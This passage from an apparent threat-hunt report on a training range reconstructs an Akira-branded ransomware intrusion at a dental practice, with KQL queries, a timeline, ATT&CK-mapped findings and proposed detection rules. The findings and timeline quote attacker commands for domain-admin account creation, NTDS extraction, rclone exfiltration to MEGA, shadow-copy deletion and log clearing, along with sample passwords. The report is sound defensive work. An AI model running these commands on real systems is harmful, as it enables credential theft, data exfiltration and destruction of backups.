A second query (A28), keyed on the 4728 event for svc_sql and looking 30 seconds back, returns the attempts to raise its rights: `net localgroup Administrators svc_sql /add` (through net.exe, net1.exe and a `cmd /c` wrapper), `powershell -c "Add-ADGroupMember -Identity 'Domain Admins' -Members svc_sql"`, and `net user svc_sql /domain` (through cmd, net and net1).

**Read:** svc_sql with password `Summer2024!` is a domain account named to look like a SQL Server service account, which is the kind of name nobody questions in a user list. The attacker tried the local Administrators route first, then switched to Add-ADGroupMember on Domain Admins, then ran `net user svc_sql /domain` to check the result. The Security 4728 event (member added to a security-enabled global group) is the proof that the Domain Admins add took effect. Domain Admins is a global group, so 4728 maps to the PowerShell command, not the localgroup attempts. Whether the localgroup attempts also produced a 4732 was not part of my query (Lead L6). Either way, svc_sql is a Domain Admin, and it survives reimaging every machine.

**Red herring:** right after this, the attacker queries a second account, akira_svc, whose name matches the ransomware brand. Searching for it across the table returns only the query; there is no 4720 and no `net user /add` for that name (A29). It was never created. Only svc_sql is real.


*Figure 7.22a: A27 output. svc_sql created on ADDC01 from spoolsv.exe at 12:21:56 AM local (05:21:56 UTC), with the matching 4720 event.*


*Figure 7.22b: A28 output. The privilege attempts for svc_sql in the 30 seconds before the 4728 event, ending with the Add-ADGroupMember Domain Admins command and the net user verification.*

### 7.23 Pivot: The visible impact

**Question:** What is the ransom note, how many times does it land, and what is actually encrypted?

```kql
HarborlightDental_CL
| where tostring(EventID) == "11"
| where TargetFilename endswith @"\akira_readme.txt"
| summarize Drops=count()
```

**Returned:** 128 file-create events for `akira_readme.txt`. A companion query (A31) counting distinct file names ending in `.akira` returns 27.

**Read:** The note was dropped 128 times so that it turns up in every folder a user might open. Only 27 distinct files carry the `.akira` extension, which is a small number for a file server. The attacker encrypted a targeted set rather than everything, most likely because the data had already been stolen and the encryption only had to be visible enough to force a decision (Confidence: Medium). The note and extension match public descriptions of Akira; attribution to that group is not claimed (section 05).


*Figure 7.23a: A30 query and output. 128 akira_readme.txt drops.*


*Figure 7.23b: A31 query and output. 27 distinct .akira files.*

### 7.24 Dead Ends and Reconciliation

| Hypothesis tested | Query / Table | Result | Why rejected |
|---|---|---|---|
| Credential Manager reads (5379) are the theft | EventCode 5379 by hour (7.8) | 268 events spread across the whole day, before and after the attack | Baseline OS behaviour. The theft is the 0x1fffff LSASS access (7.7) |
| SearchIndexer.exe access to LSASS is malicious | EventID 10 on lsass.exe (A9) | Access 0x21410 at 02:35 and 02:37 | Limited query mask used routinely by Windows Search |
| MicrosoftEdgeUpdate.exe in the execution window is part of the payload | EventID 1, 10 minutes after the lure (A2) | Parent svchost.exe, /installsource scheduler | Scheduled updater; not in the explorer.exe to rundll32 chain |
| ADDC01 to HL-FS01 port 5353 traffic is attacker C2 | EventID 3 from ADDC01 (A13) | svchost.exe to 5353 at 04:35 and 04:47 | Multicast DNS. Only the WMIC.exe row is attacker activity |
| akira_svc is a second domain backdoor | CommandLine and 4720 for akira_svc (A29) | Queried once, never created | No account creation event |
| The first fodhelper run elevated | fodhelper.exe IntegrityLevel (A6) | 02:42:11 run stayed Medium | Only PID 9280 at 02:42:39 reached High |
| The second ISO carries new malware | rundll32 command line at 02:24 to 02:26 (A3) | Same D:\review.dll,StartW | Redundant foothold, same payload |

**Where the hunt reference text and the telemetry disagree.** The explanation text shown after each flag on the range is generic in places. Where it conflicts with what my queries returned, this report follows the data:

1. **Lure file name.** The reference text says `Vendor_Invoice_Review.7z`. The telemetry shows 7zG.exe extracting `Vendor_Invoice_Review.iso` (Figure 7.1). The outer archive's name never appears in my results; the ISO name is confirmed.
2. **Hop two time.** The reference text says HL-FS01 reaches ADDC01 "around 04:28:22". My first observed connection is 03:35:12 (Figure 7.11a). 04:28 to 04:29 is when ADDC01 starts beaconing (04:29:12), which may be what the reference had in mind.
3. **Third backdoor.** The reference text names `wsync.exe` dropped by taskhostw.exe. My query on HL-FS01 returned `RuntimeBroker.exe` dropped by powershell.exe (Figure 7.18), which is also the answer the range accepted. I did not search for wsync.exe by name (Lead L5).

---

## 08 UTC Timeline

All times 2026-02-04 UTC. Times shown to the minute had their seconds truncated in the grid.

| Time (UTC) | Host | Event | Evidence ref |
|---|---|---|---|
| 01:59:02 | BACKOFFICE-PC1 | 7zG.exe extracts Vendor_Invoice_Review.iso into emily.grant's Downloads | 7.1 |
| 01:59 to 02:09 | BACKOFFICE-PC1 | rundll32.exe D:\review.dll,StartW from explorer.exe, twice | 7.2 |
| 02:24:52 | BACKOFFICE-PC1 | Second lure Harborlight_Insurance_Claims.iso extracted; same DLL re-run | 7.1, 7.2 |
| 02:25:08 | BACKOFFICE-PC1 | First C2 callback to cdn.cloud-endpoint.net addresses | 7.21 |
| 02:32:48 | BACKOFFICE-PC1 | rundll32.exe opens notepad.exe with 0x1fffff (injection; repeats to 02:35:45) | 7.3 |
| 02:35 and 02:37 | BACKOFFICE-PC1 | SearchIndexer.exe reads LSASS at 0x21410 (baseline noise) | 7.7 |
| 02:40:41 | BACKOFFICE-PC1 | reg.exe sets ms-settings open command to C:\Users\Public\taskhostw.exe (again 02:40:52) | 7.4 |
| 02:42:08 | BACKOFFICE-PC1 | reg.exe sets DelegateExecute (empty) | 7.4 |
| 02:42:11 | BACKOFFICE-PC1 | fodhelper.exe PID 10936 from rundll32.exe, Medium (failed) | 7.5 |
| 02:42:39 | BACKOFFICE-PC1 | fodhelper.exe PID 9280 from cmd.exe reaches High (UAC bypass succeeds) | 7.5 |
| 02:47 | BACKOFFICE-PC1 | taskhostw.exe (Public) injects spoolsv.exe | 7.6 |
| 02:49 to 02:50 | BACKOFFICE-PC1 | spoolsv.exe opens LSASS with 0x1fffff (credential dump) | 7.7 |
| 02:57:21 | BACKOFFICE-PC1 | notepad.exe connects to 172.16.0.8:445 (first contact with HL-FS01; again 02:59:36) | 7.9 |
| 02:59:35 | BACKOFFICE-PC1 | notepad.exe writes C:\Users\Public\20260203185934_recon.zip | 7.10 |
| 03:31 | BACKOFFICE-PC1 | Second spoolsv.exe injection; taskhostw.exe opens LSASS with 0x1fffff | 7.6, 7.7 |
| 03:34:09 | BACKOFFICE-PC1 | net use Z: \\172.16.0.8\C$ /user:HARBORLIGHT\Emily.Grant Dental2024! (parent spoolsv.exe) | 7.9 |
| 03:35:11 | HL-FS01 | First C2 callback from the file server | 7.21 |
| 03:35:12 | HL-FS01 | taskhostw.exe (Public) connects to ADDC01 on 135 and 49669 (hop two) | 7.11 |
| 03:42:36 | HL-FS01 | First log wipe: Windows PowerShell, System, Security | 7.13 |
| 03:44:58 | HL-FS01 | powershell.exe drops C:\ProgramData\Microsoft\RuntimeBroker.exe (third backdoor) | 7.18 |
| 03:47:19 | HL-FS01 | powershell.exe drops ...\Windows Defender\MsMpEng.exe | 7.18 |
| 03:57:40 | HL-FS01 | rclone (as MsMpEng.exe) copy C:\Shares mega:HARBORLIGHT-exfil, config.dat | 7.14 |
| 03:58:20 | HL-FS01 | echo user = jwilson.vhr@proton.me into rclone config | 7.14 |
| 03:58 and 04:00 | HL-FS01 | rclone copy re-run with rclone.conf | 7.14 |
| 04:01:31 to 04:06:30 | HL-FS01 | Repeated RPC (135) and SMB (445) to ADDC01 | 7.11 |
| 04:03 | HL-FS01 | taskkill /f /im MsMpEng.exe (again 04:05) | 7.14 |
| 04:04:05 to 04:04:07 | HL-FS01 | vssadmin delete shadows, bcdedit recovery off, wbadmin delete catalog | 7.16 |
| 04:05:26 | HL-FS01 | Full anti-recovery sequence repeated | 7.16 |
| 04:05:49 | HL-FS01 | vssadmin list shadows (verification) | 7.16 |
| 04:26 | HL-FS01 | taskhostw.exe injects spoolsv.exe | 7.6 |
| 04:29:12 | ADDC01 | First C2 callback from the domain controller | 7.21 |
| 04:33:55 | ADDC01 | ntdsutil IFM create full C:\Windows\Temp\ntds (parent taskhostw.exe) | 7.12 |
| 04:34 | ADDC01 | taskhostw.exe injects spoolsv.exe | 7.6 |
| 04:35:35 | ADDC01 | ntdsutil IFM repeated (parent spoolsv.exe) | 7.12 |
| 04:44 | ADDC01 | WMIC.exe connects back to HL-FS01 on 50430 | 7.11 |
| 05:13:09 | HL-FS01 | Log wipe, 5 channels | 7.13 |
| 05:14:18 | ADDC01 | Log wipe, 5 channels | 7.13 |
| 05:17:32 | BACKOFFICE-PC1 | rundll32.exe opens cmd.exe | 7.3 |
| 05:17:35 to 05:18:21 | BACKOFFICE-PC1 | Log wipe, 16 channels | 7.13 |
| 05:19:31 | HL-FS01 | Log wipe, 16 channels | 7.13 |
| 05:20:00 to 05:20:01 | ADDC01 | Log wipe, 16 channels | 7.13 |
| 05:21:56 | ADDC01 | net user svc_sql Summer2024! /add /domain (parent spoolsv.exe); 4720 | 7.22 |
| 05:21 to 05:23 | ADDC01 | Group add attempts; Add-ADGroupMember Domain Admins confirmed by 4728; akira_svc queried only | 7.22 |
| about 05:23 | Estate | Encryption: 27 .akira files, 128 akira_readme.txt notes; loud phase ends | 7.23 |
| 09:23:49 | BACKOFFICE-PC1 | Last C2 callback from the workstation (1,494 total) | 7.21 |
| 14:47:52 | HL-FS01 | Last C2 callback from the file server (8,098 total) | 7.21 |
| 18:47:29 | ADDC01 | Last C2 callback in the data (4,626 total); access still live | 7.21 |

---

## 09 Findings

### F1: A disk-image lure in an archive gave the attacker code execution on BACKOFFICE-PC1

- **State it:** Emily Grant extracted Vendor_Invoice_Review.iso from an archive at 01:59:02, and its DLL ran through rundll32.exe from explorer.exe.
- **Show it:** EventID 11, 7zG.exe writing `C:\Users\emily.grant\Downloads\Vendor_Invoice_Review\Vendor_Invoice_Review.iso` at 01:59:02 (A1, Figure 7.1). EventID 1, `"C:\Windows\System32\rundll32.exe" D:\review.dll,StartW`, parent explorer.exe, twice within ten minutes (A2, Figure 7.2).
- **Interpret it:** T1566 Phishing (delivery inferred, Blind Spot 2); T1204.002 User Execution: Malicious File; T1553.005 Mark-of-the-Web Bypass (Confidence: Medium); T1218.011 System Binary Proxy Execution: Rundll32. Emily Grant's account was the entry point, not a vulnerability.

### F2: A second, company-branded lure re-ran the same payload

- **State it:** Harborlight_Insurance_Claims.iso landed at 02:24:52 and ran the same `D:\review.dll,StartW`.
- **Show it:** A1 (Figure 7.1) and A3. First C2 callback from BACKOFFICE-PC1 at 02:25:08 (A26, Figure 7.21).
- **Interpret it:** Redundancy, not a second malware family. The company name in the file shows the lure was tailored to Harborlight.

### F3: The implant injected into notepad.exe, then used fodhelper.exe to bypass UAC

- **State it:** rundll32.exe opened notepad.exe with full access four times from 02:32:48, hijacked the ms-settings handler to point at `C:\Users\Public\taskhostw.exe`, and reached High integrity at 02:42:39 on the second attempt.
- **Show it:** EventID 10 rundll32 to notepad.exe at 0x1fffff (A4, Figure 7.3). EventID 13 `ms-settings\shell\open\command` set by reg.exe at 02:40:41 and 02:40:52, DelegateExecute at 02:42:08 (A5, Figure 7.4). fodhelper.exe PID 10936 Medium at 02:42:11; PID 9280 High at 02:42:39.753 (A6, Figure 7.5).
- **Interpret it:** T1055 Process Injection; T1548.002 Bypass User Account Control; T1112 Modify Registry. The failed first attempt and the burst of three retries show an operator adjusting, then succeeding.

### F4: The attacker's taskhostw.exe masquerades as the Windows Task Host and drives the intrusion through spoolsv.exe

- **State it:** `C:\Users\Public\taskhostw.exe` injected into spoolsv.exe on all three hosts, and spoolsv.exe became the parent of the attacker's later commands.
- **Show it:** EventID 8 taskhostw.exe (Public) to spoolsv.exe on BACKOFFICE-PC1 at 02:47 and 03:31, HL-FS01 at 04:26, ADDC01 at 04:34 (A8, Figure 7.6). spoolsv.exe as ParentImage of net use (Figure 7.9a), the second ntdsutil run (Figure 7.12) and `net user svc_sql /add` (Figure 7.22a).
- **Interpret it:** T1036.005 Masquerading: Match Legitimate Name or Location; T1055 Process Injection. Baseline separation: the legitimate taskhostw.exe runs from `C:\Windows\System32` on every host before and during the attack (A7). The discriminator is the full Image path.

### F5: Emily Grant's domain password was dumped from LSASS and used in plaintext

- **State it:** spoolsv.exe opened LSASS with PROCESS_ALL_ACCESS at 02:49 to 02:50, and the password `Dental2024!` was used to map the file server's C$ share at 03:34:09.
- **Show it:** EventID 10 spoolsv.exe to lsass.exe with 0x1fffff (A9, Figure 7.7). EventID 1 `net use Z: \\172.16.0.8\C$ /user:HARBORLIGHT\Emily.Grant Dental2024!`, parent spoolsv.exe (A10, Figure 7.9a).
- **Interpret it:** T1003.001 OS Credential Dumping: LSASS Memory; T1078.002 Valid Accounts: Domain Accounts. Baseline separation: SearchIndexer.exe touches LSASS with 0x21410, a limited mask, and is excluded. Credential Manager 5379 reads are background noise (7.8). The password follows a guessable word-plus-year pattern.

### F6: Lateral movement went workstation to file server to domain controller, then back

- **State it:** BACKOFFICE-PC1 reached HL-FS01 over SMB from 02:57:21, HL-FS01 reached ADDC01 from 03:35:12, and ADDC01 sent WMI back to HL-FS01 at 04:44.
- **Show it:** notepad.exe to 172.16.0.8:445 at 02:57:21 and 02:59:36 (A11, Figure 7.9b). HL-FS01 taskhostw.exe to 172.16.0.7 on 135, 49669 and 445 (A12, Figure 7.11a). ADDC01 WMIC.exe to 172.16.0.8:50430 (A13, Figure 7.11b).
- **Interpret it:** T1021.002 Remote Services: SMB/Windows Admin Shares; T1047 Windows Management Instrumentation; T1570 Lateral Tool Transfer (inferred from the backdoor appearing on HL-FS01 62 seconds after the C$ mapping, Confidence: Medium). The flat 172.16.0.0/24 network put no boundary between a front-office PC and the domain controller.

### F7: The full Active Directory database was extracted with ntdsutil IFM

- **State it:** `ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\ntds"` ran twice on ADDC01, at 04:33:55 and 04:35:35.
- **Show it:** EventID 1 on ADDC01, parents taskhostw.exe then spoolsv.exe (A14, Figure 7.12).
- **Interpret it:** T1003.003 OS Credential Dumping: NTDS. Every domain account hash, including krbtgt and the Coastal MSP admin accounts, must be treated as compromised. The output folder `C:\Windows\Temp\ntds` may still be on disk.

### F8: Event logs were cleared on all three hosts in six bursts, with Security cleared every time

- **State it:** `wevtutil cl` cleared 3 to 16 channels per burst, first on HL-FS01 at 03:42:36 and finally on all three hosts between 05:17:35 and 05:20:01.
- **Show it:** A15, A16 and A17 (Figures 7.13a to 7.13c).
- **Interpret it:** T1070.001 Indicator Removal: Clear Windows Event Logs. The staggered 16-channel wipe points to scripted cleanup (Confidence: Medium). It did not affect this investigation, because the events had already been forwarded.

### F9: The shared drive was exfiltrated to MEGA with rclone disguised as Microsoft Defender

- **State it:** `C:\ProgramData\Microsoft\MsMpEng.exe`, which is rclone, copied `C:\Shares` to `mega:HARBORLIGHT-exfil` between 03:57:40 and about 04:05, using an account registered to `jwilson.vhr@proton.me`.
- **Show it:** EventID 1 on HL-FS01, parent taskhostw.exe (A18, Figures 7.14a and 7.14b); config echo at 03:58:20 (A19, Figure 7.14c).
- **Interpret it:** T1567.002 Exfiltration Over Web Service: Exfiltration to Cloud Storage; T1036.005 Masquerading. Patient and insurance data from the shared drive should be assumed to be in the attacker's hands. Volume is not measurable (Blind Spot 1).

### F10: Recovery was destroyed on the file server twice, and partly on the DC

- **State it:** HL-FS01 lost its shadow copies, backup catalogue and boot recovery in two passes at 04:04:05 and 04:05:26; ADDC01 lost its shadow copies only.
- **Show it:** A20 and A21 (Figures 7.16a and 7.16b).
- **Interpret it:** T1490 Inhibit System Recovery. The attacker prioritised the host with the business data. Recovery will depend on backups that were offline or off-site.

### F11: Three independent backdoors, one per host, all calling a CDN-fronted C2 domain

- **State it:** `C:\Users\Public\taskhostw.exe` (BACKOFFICE-PC1 and lateral use), `C:\Users\Public\OneDriveSync.exe` (ADDC01) and `C:\ProgramData\Microsoft\RuntimeBroker.exe` (HL-FS01) each resolve `cdn.cloud-endpoint.net`, which answers with Cloudflare addresses 172.67.174.46 and 104.21.30.237.
- **Show it:** A22 (Figure 7.18), A23 (Figure 7.19), A32 (7.17), A24 and A26 (Figure 7.21).
- **Interpret it:** T1036.005 Masquerading; T1071.001 Application Layer Protocol: Web Protocols; T1090.002 Proxy: External Proxy (CDN), with T1090.004 Domain Fronting unconfirmed. 14,218 connections (9,954 on 443, 4,264 on 80) mark a sustained channel. The autostart mechanism for each backdoor is not established (Blind Spot 4).

### F12: Attacker access outlived the ransomware by more than 13 hours

- **State it:** C2 callbacks continued to 09:23:49 from BACKOFFICE-PC1, 14:47:52 from HL-FS01 and 18:47:29 from ADDC01, against a loud phase that ended about 05:23.
- **Show it:** A26 (Figure 7.21).
- **Interpret it:** The incident was still live when staff reported it. Any recovery that restores data without first removing the backdoors and resetting domain credentials will hand the environment back to the attacker.

### F13: A Domain Admin backdoor account, svc_sql, was created

- **State it:** svc_sql was created with password `Summer2024!` at 05:21:56 and added to Domain Admins, confirmed by Security 4728.
- **Show it:** A27 (Figure 7.22a) and A28 (Figure 7.22b). akira_svc was queried but never created (A29).
- **Interpret it:** T1136.002 Create Account: Domain Account; T1098.007 Account Manipulation: Additional Local or Domain Groups; T1087.002 Account Discovery: Domain Account. This persistence lives in Active Directory itself and survives rebuilding every host.

### F14: Akira-branded encryption hit a targeted set of files

- **State it:** 128 `akira_readme.txt` notes were written and 27 distinct files received the `.akira` extension.
- **Show it:** A30 and A31 (Figures 7.23a and 7.23b).
- **Interpret it:** T1486 Data Encrypted for Impact. With exfiltration (F9) this is double extortion. The low file count fits pressure, not destruction.

---

## 10 Negative Findings

| Looked for | Where | Method applied | Conclusion |
|---|---|---|---|
| Credential theft through Credential Manager | EventCode 5379, BACKOFFICE-PC1 | Hourly count across the full day (A25) | Steady rate before, during and after the attack. Noise |
| Attacker use of the System32 taskhostw.exe | EventID 1, all hosts (A7) | Image path comparison | System32 copy is baseline; only `C:\Users\Public\taskhostw.exe` is attacker |
| A second real domain backdoor (akira_svc) | CommandLine and EventCode 4720 (A29) | Name search across the table | Queried only; never created |
| Anti-recovery on BACKOFFICE-PC1 | EventID 1, vssadmin/wbadmin/bcdedit/reagentc (A20) | Per-host technique set | None on the workstation; HL-FS01 full, ADDC01 VSS only |
| reagentc (Windows Recovery Environment) changes | Same query (A20) | Included in the case() mapping | Zero rows on any host |
| Direct workstation to DC connection | EventID 3 from BACKOFFICE-PC1 | Not run as a dedicated query | Not tested. Listed as Lead L7 rather than claimed absent |

---

## 11 Hypothesis Outcome

**Outcome: Proved.**

**Justification:** An external actor gained a foothold through a user-opened ISO lure (F1, F2), escalated through a UAC bypass and process injection (F3, F4), stole a domain credential from LSASS (F5), moved laterally to HL-FS01 and ADDC01 (F6), extracted the AD database (F7) and the shared drive (F9), destroyed recovery options (F10), cleared logs (F8), created a Domain Admin account (F13) and encrypted files (F14). The final element of the hypothesis, access that outlives the ransom event, is proved by three backdoors still beaconing 4 to 13 hours after encryption (F11, F12). All three counter-hypotheses were tested and rejected (7.5, 7.8, 7.21).

**Unresolved links:**

1. **Delivery channel.** How the archive reached Emily Grant's Downloads folder is not in this table (Blind Spot 2). Mail gateway and Microsoft 365 message trace are the next sources (L1).
2. **Backdoor persistence mechanisms.** The three binaries are known; how each is set to restart is not (L2).
3. **Contents of the recon zip and the exfil volume.** Neither is visible without the file itself or network data (L3, L4).
4. **Origin of `C:\ProgramData\Microsoft\MsMpEng.exe`.** The drop seen is one folder lower (7.18, L5).
5. **Ransomware binary.** The process that wrote the .akira files and notes was not projected in my queries (L8).

> **Containment is not achieved.** All three backdoors were beaconing at the end of their activity windows, the last at 18:47:29 UTC, and svc_sql remains a Domain Admin.

---

## 12 ATT&CK Coverage

### Observed

| Tactic | Technique | ID | Evidence ref |
|---|---|---|---|
| Initial Access | Phishing (inferred delivery) | T1566 | F1 |
| Execution | User Execution: Malicious File | T1204.002 | F1, F2 |
| Defense Evasion | Subvert Trust Controls: Mark-of-the-Web Bypass | T1553.005 | F1 (Confidence: Medium) |
| Defense Evasion | System Binary Proxy Execution: Rundll32 | T1218.011 | F1 |
| Defense Evasion, Privilege Escalation | Process Injection | T1055 | F3 (notepad.exe), F4 (spoolsv.exe) |
| Privilege Escalation, Defense Evasion | Abuse Elevation Control Mechanism: Bypass UAC | T1548.002 | F3 |
| Defense Evasion | Modify Registry | T1112 | F3 |
| Defense Evasion | Masquerading: Match Legitimate Name or Location | T1036.005 | F4, F9, F11 |
| Credential Access | OS Credential Dumping: LSASS Memory | T1003.001 | F5 |
| Defense Evasion, Persistence | Valid Accounts: Domain Accounts | T1078.002 | F5 |
| Collection | Data Staged: Local Data Staging | T1074.001 | 7.10 (recon.zip) |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 | F6 |
| Lateral Movement | Lateral Tool Transfer | T1570 | F6 (inferred) |
| Execution | Windows Management Instrumentation | T1047 | F6 |
| Credential Access | OS Credential Dumping: NTDS | T1003.003 | F7 |
| Defense Evasion | Indicator Removal: Clear Windows Event Logs | T1070.001 | F8 |
| Exfiltration | Exfiltration to Cloud Storage | T1567.002 | F9 |
| Impact | Inhibit System Recovery | T1490 | F10 |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | F11 |
| Command and Control | Proxy: External Proxy | T1090.002 | F11 (CDN) |
| Persistence | Create Account: Domain Account | T1136.002 | F13 |
| Persistence, Privilege Escalation | Account Manipulation: Additional Local or Domain Groups | T1098.007 | F13 |
| Discovery | Account Discovery: Domain Account | T1087.002 | F13 |
| Impact | Data Encrypted for Impact | T1486 | F14 |

### Tested, not supported or not confirmed

| Technique | ID | Why |
|---|---|---|
| Credentials from Password Stores | T1555 | 5379 reads are baseline noise (7.8) |
| Proxy: Domain Fronting | T1090.004 | Requires SNI and Host header data, which this table does not hold (7.19) |
| Boot or Logon Autostart Execution / Create or Modify System Process | T1547 / T1543 | Backdoors clearly persisted, but the mechanism was not queried (Blind Spot 4) |

---

## 13 Detection and Telemetry Gaps

| ID | Gap | Impact | Fix | Owner |
|---|---|---|---|---|
| G1 | No one reviews the logs; no alert queue exists | A 17-hour intrusion with Sysmon fully deployed went unseen until the ransom notes | Deploy the section 14 detections to a monitored queue, or contract a managed detection service | Coastal MSP |
| G2 | No network sensor (no Zeek, Suricata or flow data) | Exfil volume and C2 content unknown | Firewall flow logs or a sensor at the internet edge | Coastal MSP |
| G3 | Flat 172.16.0.0/24 network | Workstation reached file server and DC on SMB and RPC freely | Separate workstation, server and DC segments; deny workstation-to-DC SMB/RPC except required AD ports | Coastal MSP |
| G4 | Local logs can be cleared by an admin with no alert | Evidence removed from hosts | Alert on Security 1102 and on `wevtutil cl` (D8); keep forwarding enabled | SOC / Coastal MSP |
| G5 | No file hashes or signature data queried in this table | IOC list is name and path based only | Enable Sysmon Hashes and ship the field; record signer info | Coastal MSP |
| G6 | Weak, predictable passwords (Dental2024!, Summer2024!) | Quick credential reuse; easy guessing | Password policy with banned-word lists; MFA for remote and admin access | Coastal MSP |
| G7 | Persistence locations not baselined (Run keys, services, tasks) | Backdoor autostart not visible in this hunt | Ship Sysmon EventID 12/13 for Run keys, 7045 for services, 4698 for tasks | SOC |
| G8 | Mail and web delivery logs not in the workspace | Initial delivery path unknown | Ingest Microsoft 365 message trace and proxy logs | Coastal MSP |

---

## 14 New Detections Authored

All rules are proposed and written against `HarborlightDental_CL`. None has been deployed. Each lists what it should return on this hunt's data, based on the pivots in section 07. For scheduled use, `TimeGenerated` scopes the lookback (it is ingestion time, which is what a scheduler needs); `EventTime` is used for all ordering and reporting, as the brief requires.

| ID | Detection | ATT&CK | Status |
|---|---|---|---|
| D1 | rundll32 loading a DLL from a removable or mounted drive | T1218.011, T1553.005 | Proposed |
| D2 | ms-settings handler hijack (fodhelper UAC bypass setup) | T1548.002, T1112 | Proposed |
| D3 | Windows system binary names running from the wrong folder | T1036.005 | Proposed |
| D4 | Full-access LSASS open by a non-allowlisted process | T1003.001 | Proposed |
| D5 | Spooler as a parent of shells and admin tools | T1055 | Proposed |
| D6 | Plaintext credentials on the command line | T1078.002, T1021.002 | Proposed |
| D7 | NTDS extraction with ntdsutil IFM | T1003.003 | Proposed |
| D8 | Event log clearing burst | T1070.001 | Proposed |
| D9 | rclone behaviour regardless of file name | T1567.002 | Proposed |
| D10 | Recovery inhibition commands | T1490 | Proposed |
| D11 | New domain account added to a privileged group within minutes | T1136.002, T1098.007 | Proposed |
| D12 | Sustained callbacks to one external destination per process | T1071.001, T1090.002 | Proposed |

### D1: rundll32 loading a DLL from a removable or mounted drive

**ATT&CK:** T1218.011 Rundll32; T1553.005 Mark-of-the-Web Bypass

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| where Image endswith @"\rundll32.exe"
| where CommandLine matches regex @"(?i)\s[D-Z]:\\[^\\]+\.dll,"
| where ParentImage endswith @"\explorer.exe"
| project EventTime, host, ParentImage, CommandLine
```

- **Logic:** rundll32 started by a user (explorer.exe) to load a DLL from the root of a non-system drive letter, which is where a mounted ISO appears.
- **FP assessment:** Rare in an office that installs nothing. Vendor installers on USB drives could trigger; review by DLL name.
- **Expected on Hunt 22 data:** The `rundll32 D:\review.dll,StartW` executions on BACKOFFICE-PC1 after 01:59:02 and 02:24:52.
- **Status:** Proposed.

### D2: ms-settings handler hijack (fodhelper UAC bypass setup)

**ATT&CK:** T1548.002 Bypass UAC; T1112 Modify Registry

```kql
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "13"
| where TargetObject has @"ms-settings\shell\open\command"
| project EventTime, host, Image, TargetObject, Details
```

- **Logic:** Any write to the ms-settings open command key in a user hive. There is no legitimate reason for this key to be set.
- **FP assessment:** Very low.
- **Expected on Hunt 22 data:** Three rows on BACKOFFICE-PC1, 02:40:41 to 02:42:08, Details `C:\Users\Public\taskhostw.exe` and `(Empty)`.
- **Status:** Proposed.

### D3: Windows system binary names running from the wrong folder

**ATT&CK:** T1036.005 Masquerading: Match Legitimate Name or Location

```kql
let names = dynamic(["taskhostw.exe","msmpeng.exe","runtimebroker.exe","onedrivesync.exe","svchost.exe","spoolsv.exe","lsass.exe"]);
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "1"
| extend FileName = tolower(extract(@"([^\\]+)$", 1, Image))
| where FileName in (names)
| where Image !startswith @"C:\Windows\System32\"
    and Image !startswith @"C:\ProgramData\Microsoft\Windows Defender\Platform\"
    and Image !startswith @"C:\Program Files\Windows Defender\"
| where Image has_any (@"\Users\Public\", @"\ProgramData\Microsoft\", @"\Temp\", @"\AppData\")
| summarize FirstSeen=min(EventTime), Hosts=make_set(host) by Image
```

- **Logic:** A Windows or Defender process name whose path is outside its real install folder and inside a user-writable location.
- **FP assessment:** The real OneDrive client runs from AppData under the name OneDrive.exe, not OneDriveSync.exe, so it is not matched. Tune per estate if a vendor uses a lookalike name.
- **Expected on Hunt 22 data:** `C:\Users\Public\taskhostw.exe` (all three hosts), `C:\Users\Public\OneDriveSync.exe` (ADDC01), `C:\ProgramData\Microsoft\RuntimeBroker.exe` and `C:\ProgramData\Microsoft\MsMpEng.exe` (HL-FS01).
- **Status:** Proposed.

### D4: Full-access LSASS open by a non-allowlisted process

**ATT&CK:** T1003.001 LSASS Memory

```kql
let allow = dynamic([@"C:\Windows\system32\SearchIndexer.exe", @"C:\Windows\system32\wininit.exe", @"C:\Windows\system32\csrss.exe"]);
HarborlightDental_CL
| where TimeGenerated > ago(1h)
| where tostring(EventID) == "10"
| extend SourceImage = extract(@"<Data Name='SourceImage'>([^<]+)", 1, EventData_Xml)
| extend TargetImage = extract(@"<Data Name='TargetImage'>([^<]+)", 1, EventData_Xml)
| extend Access      = extract(@"<Data Name='GrantedAccess'>([^<]+)", 1, EventData_Xml)
| where TargetImage endswith @"\lsass.exe"
| where Access in ("0x1fffff", "0x1010", "0x1438", "0x143a")
| where SourceImage !in~ (allow)
